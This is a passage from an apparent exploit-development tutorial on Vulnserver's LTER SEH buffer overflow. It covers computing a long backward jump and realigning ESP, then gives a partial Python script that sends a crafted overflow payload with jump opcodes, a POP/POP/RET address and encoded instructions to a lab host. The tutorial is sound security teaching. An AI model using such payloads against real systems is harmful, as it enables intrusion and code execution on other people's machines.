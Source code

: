 First, we need to know the exact instruction of the desired long
backward jump:

<div class="imgblock">

![Second long jump](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331199/blog/vulnserver-lter-seh/long-jump2_m5hsrq.webp)

</div>

The resulting bytes are `E9 2D F2 FF FF`. We must perform a long jump
not to the very start of our buffer, but somewhere in the first bytes.
This is because we don’t know at this point the memory address on where
the `JMP` instruction will be generated, and thus, the offset will
likely change.

With the required bytes, we need to align the `ESP` pointer again. As we
saw, it’s a good idea to point it to the higher memory of the block in
order to avoid overwriting our encoded payload. This leads to:

``` x86asm
push esp            ; Push the current value of ESP on the stack
pop eax             ; Pop it to EAX register
sub al,0x30         ; Substract 30 bytes from EAX
push eax            ; Push the resultant value of EAX to the stack
pop esp             ; Pop it back the ESP
```

Let’s update our exploit:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4 - 79) +
    # Align stack for our long jump
    b'\x54' +           # PUSH ESP
    b'\x58' +           # POP EAX
    b'\x2c\x30' +       # SUB AL,30
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    b'A' * (79 - 6) +   # Fill the rest of our buffer with A
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
```